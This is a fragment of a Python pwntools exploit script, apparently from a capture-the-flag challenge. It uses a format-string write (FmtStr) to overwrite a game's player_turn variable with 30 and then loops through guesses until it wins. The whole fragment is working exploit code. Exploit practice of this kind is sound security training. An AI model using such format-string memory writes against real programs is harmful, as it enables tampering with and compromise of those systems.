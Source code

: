 ```python
p.sendline("c")
f.write(player_turn, 30)
f.execute_writes()
p.recvlines(33)
f = FmtStr(send, offset=9)

p.sendline("g")
p.sendline("0.001")
p.sendline("3")

p.recvlines(17)
reply = p.recvline()
while reply[:5] == "Wrong":
	p.sendline("")
	p.sendline("g")
	p.sendline("0.0001")
	p.sendline("3")
	p.recvlines(49)
	reply = p.recvline()

log.info("Overwritten turn to 30")

p.sendline("")
print p.recvall()
'''
```